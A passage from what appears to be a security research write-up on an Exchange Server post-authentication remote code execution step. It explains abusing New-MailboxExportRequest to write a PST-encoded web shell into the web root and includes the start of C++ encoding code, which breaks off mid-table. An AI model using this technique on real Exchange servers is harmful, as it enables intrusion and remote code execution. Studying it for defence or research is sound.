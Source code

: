 ### 3. Working with remote Powershell and archieved the post-auth RCE

Since we are now an admin of Exchange Server, there are many potential commands to abuse to get Post Auth RCE. I will use the `New-MailboxExportRequest` command

According to [Microsoft docs](https://docs.microsoft.com/en-us/powershell/module/exchange/new-mailboxexportrequest?view=exchange-ps),  `New-MailboxExportRequest` allow us to export user's mailbox to a file. That allow us to write arbitrary file to any location, we can write our shell to web root location of Exchange server.


This is where the arbitrary write file happens, the API doesn't check that the exported files have to be a certain format extension, like `.pst,...`, so we can use that and export our payload to any file extension, like `abc.aspx` for example 

ex:
```powershell
New-MailboxExportRequest -Mailbox AylaKol -FilePath "\\SERVER01\PSTFileShare\Ayla_Recovered.pst"
```

The exported file is encoded and in `PST` format. Now come the fun part, how do we write the data to mailbox so that after the mail is exported into a PST file, it still a useable shell for us ?. 

Follow Orange Tsai's talk, he showed us how to encode the payload first and then send it to the Exchange Server, when the Exchange server try to save and export the file and encode it again, it will turns it into the orginal malicious code . This [MS-doc](https://docs.microsoft.com/en-us/openspecs/office_file_formats/ms-pst/5faf4800-645d-49d1-9457-2ac40eb467bd) will help us how to encode our shell before sending.

At the time I was writing this research, I haven't found any way to implement this in python, so I copied the C++ code from Microsoft Blog and modify it a little bit

```c
#include <stdio.h> 
#include <windows.h>
#include <string.h>
#include "base64.h"

BYTE mpbbCrypt[] =
{
     65,  54,  19,  98, 168,  33, 110, 187,
    244,  22, 204,   4, 127, 100, 232,  93,
     30, 242, 203,  42, 116, 197,  94,  53,
    210, 149,  71, 158, 150,  45, 154, 136,
     76, 125, 132,  63, 219, 172,  49, 182,
     72,  95, 246, 196, 216,  57, 139, 231,
     35,  59,  56, 142, 200, 193, 223,  37,
    177,  32, 165,  70,  96,  78, 156, 251,
    170, 211,  86,  81,  69, 124,  85,   0,
      7, 201,  43, 157, 133, 155,   9, 160,
    143, 173, 179,  15,  99, 171, 137,  75,
    215, 167,  21,  90, 113, 102,  66, 191,
     38,  74, 107, 152, 250, 234, 119,  83,
    178, 112,   5,  44, 253,  89,  58, 134,
    126, 206,   6, 235, 130, 120,  87, 199,
    141,  67, 175, 180,  28, 212,  91, 205,
    226, 233,  39,  79, 195,   8, 114, 128,
    207, 176, 239, 245,  40, 109, 190,  48,
     77,  52, 146, 213,  14,  60,  34,  50,
    229, 228, 249, 159, 194, 209,  10, 129,
     18, 225, 238, 145, 131, 118, 227, 151,
    230,  97, 138,  23, 121, 164, 183, 220,
    144, 122,  92, 140,   2, 166, 202, 105,
    222,  80,  26,  17, 147, 185,  82, 135,
     88, 252, 237,  29,  55,  73,  27, 106,
    224,  41,  51, 153, 189, 108, 217, 148,
```